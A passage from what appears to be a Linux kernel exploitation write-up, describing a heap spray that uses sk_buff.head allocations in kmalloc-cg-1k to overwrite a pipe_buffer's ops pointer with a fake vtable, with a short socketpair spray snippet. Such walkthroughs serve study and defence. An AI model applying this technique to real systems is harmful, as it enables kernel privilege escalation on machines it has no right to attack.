 ```c
struct sk_buff {
    /* unimportant headers ... */
    /* ... */
	/* end headers group */

	/* These elements must be at the end, see alloc_skb() for details.  */
	sk_buff_data_t		tail;
	sk_buff_data_t		end;
	unsigned char		*head,
				*data;
	unsigned int		truesize;
	refcount_t		users;

#ifdef CONFIG_SKB_EXTENSIONS
	/* only useable after checking ->active_extensions != 0 */
	struct skb_ext		*extensions;
#endif
};

/*
 * &sk_buff.head points to the main "head" buffer. The head buffer is divided
 * into two parts:
 *
 *  - data buffer, containing headers and sometimes payload;
 *    this is the part of the skb operated on by the common helpers
 *    such as skb_put() or skb_pull();
 *  - shared info (struct skb_shared_info) which holds an array of pointers
 *    to read-only data in the (page, offset, length) format.
 */
```

I couldn't find the allocate code for `sk_buff.head`, but it is allocated in `kmalloc-cg-1k` as well. The unique thing
about this struct is that the user input actually appears at the top of the struct, while metadata is found at the
bottom. This is really useful for our `pipe_buf` overwrite, since `pipe_buf` metadata is found at the top of its struct,
so we can overwrite the metadata of `pipe_buf` easily!

To initialize an `sk_buff` and write data to head:

```c
char payload[1024 - 320];
int sk_socket[2];
socketpair(AF_UNIX, SOCK_STREAM, 0, sk_socket);
write(sk_socket[0], payload, sizeof(payload));
```

Now, we can spray and allocate `sk_buff.head` over `pipe_buf`, overwriting `pipe_buf.ops` to our desired vtable. We can
put the fake vtable inside `sk_buff.head` as well, since we already know its address from `kmalloc-cg-1k` kheap leak.
